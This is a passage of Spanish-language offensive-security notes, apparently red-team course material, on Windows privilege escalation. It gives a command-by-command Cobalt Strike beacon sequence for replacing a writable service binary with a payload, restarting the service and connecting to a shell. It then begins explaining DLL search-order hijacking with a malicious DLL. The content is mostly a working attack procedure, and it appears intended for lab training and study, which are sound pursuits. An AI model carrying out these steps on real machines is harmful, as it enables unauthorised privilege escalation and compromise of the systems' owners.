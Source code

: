 ### 🔹 **5. Weak Service Binary Permission**

#### 💥 Requisitos
- Permisos de escritura sobre el **binario del servicio**.
```powershell
# 1. Enumerar servicios modificables
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

# 2. Ver permisos sobre el binario
beacon> powershell Get-Acl -Path "C:\Program Files\Vulnerable Services\Service 3.exe" | fl

# 3. Copiar payload con el nombre del binario
PS> copy "tcp-local_x64.svc.exe" "Service 3.exe"

# 4. Parar servicio
beacon> run sc stop VulnService3

# 5. Subir binario modificado
beacon> cd "C:\Program Files\Vulnerable Services"
beacon> upload Service 3.exe

# 6. Iniciar servicio
beacon> run sc start VulnService3

# 7. Conectarse al reverse shell
beacon> connect localhost 4444
```


### 🔹 **6.  Escalada por DLL Search Order Hijacking**
### 🔍 ¿Qué es?

Cuando una app necesita una DLL, muchas veces no indica su ruta completa, sino solo el nombre. Entonces **Windows busca esa DLL en un orden específico** llamado “DLL search order”.

👉 Si tú puedes **escribir un archivo malicioso en una carpeta que se revisa antes que la legítima**, puedes engañar a la app para que cargue tu DLL maliciosa con privilegios altos.

---

### 📚 **Orden típico de búsqueda de DLLs en Windows**:

1. 📁 Directorio desde el que se ejecuta el programa
    
2. 📁 `C:\Windows\System32`
    
3. 📁 `C:\Windows\System`
    
4. 📁 `C:\Windows`
    
5. 📁 **Directorio de trabajo actual**
    
6. 📁 Directorios del `PATH` (variable de entorno)
